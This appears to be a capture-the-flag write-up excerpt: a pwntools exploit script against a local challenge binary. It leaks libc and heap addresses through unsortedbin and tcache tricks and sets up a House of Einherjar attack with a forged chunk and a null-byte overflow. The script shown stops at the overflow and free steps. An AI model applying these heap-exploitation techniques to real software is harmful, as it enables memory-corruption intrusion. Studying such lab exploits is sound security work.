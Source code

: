 
# Full exploit Script
```python
from pwn import *

exe = context.binary = ELF("./chall", checksec=False)
libc = exe.libc

io = process(exe.path)

def create(size, s):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"size? ", str(size).encode())
    io.sendafter(b"str? ", s)
    io.recvuntil(b"stored at ")
    return int(io.recvuntil(b"!")[:-1])

def tok(idx, delim):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"idx? ", str(idx).encode())
    io.sendlineafter(b"delim? ", delim)

def free(idx):
    io.sendlineafter(b"> ", b"3")
    io.sendlineafter(b"idx? ", str(idx).encode())

### Get libc leak through unsortedbin ###
a = create(0x420, b"A")
b = create(0x10, b"B")
free(a)
create(0x420, b"D")
tok(a, b"A")

libc_leak = unpack(io.recvline()[:-1].ljust(8, b"\x00"))
libc.address = libc_leak - 0x3ebc44
log.success(f"Libc base @ {hex(libc.address)}")


### Get heap leak ###
a = create(0x10, b"A")
b = create(0x10, b"B")
free(a)
free(b)
create(0x10, b"C")
tok(a, b"D")

heap_leak = unpack(io.recvline()[:-1].ljust(8, b"\x00"))
heap_base = heap_leak - 0x643
log.success(f"Heap base @ {hex(heap_base)}")
create(0x10, b"E") # Clean tcache to ease further exploitation

### House of Einherjar ###
fake_chunk_addr = heap_base + 0x6f0
fake_chunk = pack(0) + pack(0x51)       # Fake chunk of size 0x50
fake_chunk += pack(fake_chunk_addr) * 2 # Make chunk point to itself to bypass unlink checks

a = create(0x38, fake_chunk)     # Setup fake chunk
c = create(0x18, b"B"*0x18)      # Chunk we will use for null-byte overflow
d = create(0x4f8, b"C"*8)        # Chunk which will consolidate backwards with our fake chunk
e = create(0x18, b"guard chunk") # Guard chunk to prevent consolidation with top chunk

tok(c, b"\x01") # Null-byte overflow
free(c)         # Free chunk so that we can set "prev size" field of large chunk
```